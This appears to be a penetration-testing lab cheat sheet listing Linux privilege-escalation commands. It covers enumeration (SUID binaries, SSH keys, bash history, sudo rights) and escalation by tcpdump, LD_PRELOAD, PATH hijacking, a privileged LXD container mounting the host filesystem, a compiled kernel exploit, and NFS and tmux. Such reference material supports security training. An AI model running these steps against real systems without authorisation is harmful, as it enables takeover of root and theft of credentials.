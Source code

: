 # Linux

| **Command**                                                                         | **Description**                                       |
| ----------------------------------------------------------------------------------- | ----------------------------------------------------- |
| `ssh htb-student@<target IP>`                                                       | SSH to lab target                                     |
|  `ps aux \| grep root`                                                              | See processes running as root                         |
| `ps au`                                                                             | See logged in users                                   |
| `ls /home`                                                                          | View user home directories                            |
| `ls -l ~/.ssh`                                                                      | Check for SSH keys for current user                   |
| `history`                                                                           | Check the current user's Bash history                 |
| `sudo -l`                                                                           | Can the user run anything as another user?            |
| `ls -la /etc/cron.daily`                                                            | Check for daily Cron jobs                             |
| `lsblk`                                                                             | Check for unmounted file systems/drives               |
| `find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null`                       | Find world-writeable directories                      |
| `find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null`                       | Find world-writeable files                            |
| `uname -a`                                                                          | Check the Kernel versiion                             |
| `cat /etc/lsb-release`                                                              | Check the OS version                                  |
| `gcc kernel_expoit.c -o kernel_expoit`                                              | Compile an exploit written in C                       |
| `screen -v`                                                                         | Check the installed version of `Screen`               |
| `./pspy64 -pf -i 1000`                                                              | View running processes with `pspy`                    |
| `find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null`                     | Find binaries with the SUID bit set                   |
| `find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null`                     | Find binaries with the SETGID bit set                 |
| `sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root` | Priv esc with `tcpdump`                               |
| `echo $PATH`                                                                        | Check the current user's PATH variable contents       |
| `PATH=.:${PATH}`                                                                    | Add a `.` to the beginning of the current user's PATH |
| `find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null`                   | Search for config files                               |
| `ldd /bin/ls`                                                                       | View the shared objects required by a binary          |
| `sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart`                            | Escalate privileges using `LD_PRELOAD`                |
| `readelf -d payroll \| grep PATH`                                                   | Check the RUNPATH of a binary                         |
| `gcc src.c -fPIC -shared -o /development/libshared.so`                              | Compiled a shared libary                              |
| `lxd init`                                                                          | Start the LXD initialization process                  |
| `lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine`                  | Import a local image                                  |
| `lxc init alpine r00t -c security.privileged=true`                                  | Start a privileged LXD container                      |
| `lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true`      | Mount the host file system in a container             |
| `lxc start r00t`                                                                    | Start the container                                   |
| `showmount -e 10.129.2.12`                                                          | Show the NFS export list                              |
| `sudo mount -t nfs 10.129.2.12:/tmp /mnt`                                           | Mount an NFS share locally                            |
| `tmux -S /shareds new -s debugsess`                                                 | Created a shared `tmux` session socket                |
| `./lynis audit system`                                                              | Perform a system audit with `Lynis`                   |
